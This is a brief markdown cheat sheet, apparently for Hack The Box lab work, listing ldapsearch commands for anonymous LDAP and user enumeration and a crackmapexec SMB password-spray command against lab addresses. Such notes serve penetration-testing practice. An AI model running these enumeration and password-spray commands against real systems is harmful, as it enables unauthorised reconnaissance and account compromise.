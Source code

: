 # Ldap enumeration:

#### For enumerating ldap and finding domain controllers:
```
ldapsearch -H ldap://10.10.10.161 -x -s base '' "(objectClass=*)" "*" +
```
#### For user name enumeration
```
ldapsearch -H ldap://10.10.10.161 -x -b DC=htb,DC=local "(objectClass=person)" | grep "sAMAccountName:"
```
#### ldap password spray: 
```
crackmapexec smb 10.10.10.6 -u users.txt -p 'BabyStart123!' --no-bruteforce
```
